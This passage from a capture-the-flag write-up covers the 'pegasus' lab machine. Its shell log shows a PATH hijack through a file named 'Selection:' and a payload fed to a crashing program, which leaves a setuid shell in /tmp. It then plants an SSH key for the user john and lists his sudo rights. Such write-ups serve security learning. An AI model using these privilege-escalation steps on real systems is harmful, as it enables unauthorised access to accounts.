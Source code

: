 
>mike@pegasus:~$ touch Selection\:
mike@pegasus:~$ nano Selection\: 
mike@pegasus:~$ chmod +x Selection\: 
mike@pegasus:~$ export PATH=$PATH:.
mike@pegasus:~$ echo PATH
PATH
mike@pegasus:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:.
mike@pegasus:~$ cat payload | ./my_first 
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ����             
Segmentation fault (core dumped)
mike@pegasus:~$ ls -la /tmp
total 108
drwxrwxrwt  2 root root   4096 Nov 23 03:19 .
drwxr-xr-x 22 root root   4096 Nov 19  2014 ..
-rwsr-sr-x  1 john mike 100284 Nov 23 03:19 dash
mike@pegasus:~$


As you notice, above, i created a file named Selection: and made it executable cause that is what we managed to do with my_first program to execute. Next i added on the $PATH the . so it can execute freely,inserted my payload and ran my_first program that made. What that file that i made did??it copied the /bin/dash file in the /tmp folder with elvated permissions and by elevated permissions i mean john!

[![peg12](https://trickster0.files.wordpress.com/2015/11/peg12.png)](https://trickster0.files.wordpress.com/2015/11/peg12.png)
 First thing i did, was to add my ssh public key in the authorized_keys of john's and right away connect via ssh to him

[![peg13](https://trickster0.files.wordpress.com/2015/11/peg13.png)](https://trickster0.files.wordpress.com/2015/11/peg13.png)

[![peg14](https://trickster0.files.wordpress.com/2015/11/peg14.png)](https://trickster0.files.wordpress.com/2015/11/peg14.png)
i typed sudo -l but this is what i got


>john@pegasus:~$ sudo -l
Matching Defaults entries for john on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on this host:
    (root) NOPASSWD: /usr/local/sbin/nfs
